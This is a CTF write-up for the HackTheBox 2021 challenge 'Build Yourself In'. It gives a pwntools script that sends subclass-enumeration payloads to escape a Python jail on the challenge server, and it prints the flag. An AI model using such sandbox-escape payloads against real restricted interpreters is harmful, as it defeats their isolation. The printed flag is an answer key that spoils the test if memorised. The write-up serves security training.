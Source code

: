 ```yaml
---
name: Build Yourself In (2021)
event: HackTheBox Cyber Apocalypse CTF 2021
category: Misc
description: Writeup for Build Yourself In (Misc) - HackTheBox Cyber Apocalypse CTF (2021) 💜
layout:
    title:
        visible: true
    description:
        visible: true
    tableOfContents:
        visible: false
    outline:
        visible: true
    pagination:
        visible: true
---
```


# Build Yourself In

## Video Walkthrough

[![VIDEO](https://img.youtube.com/vi/3hP158TJk84/0.jpg)](https://youtu.be/3hP158TJk84?t=28s "HTB Cyber Apocalypse CTF 2021: Build Yourself In")

## Challenge Description

> The extraterrestrials have upgraded their authentication system and now only them are able to pass. Did you manage to learn their language well enough in order to bypass the the authorization check?

## Solution

```py
from pwn import *

context.log_level = 'warning'

for i in range(100):
    io = remote("138.68.151.248", 30697)
    # to_enumerate = '().__class__.__base__.__subclasses__()'
    to_enumerate = '().__class__.__base__.__subclasses__()'
    io.sendlineafter(
        '>>>', '[print(x) for x in [[' + to_enumerate + str(i) + ']]]')
    print(io.recvline())
```

Flag: `CHTB{n0_j4il_c4n_h4ndl3_m3!}`
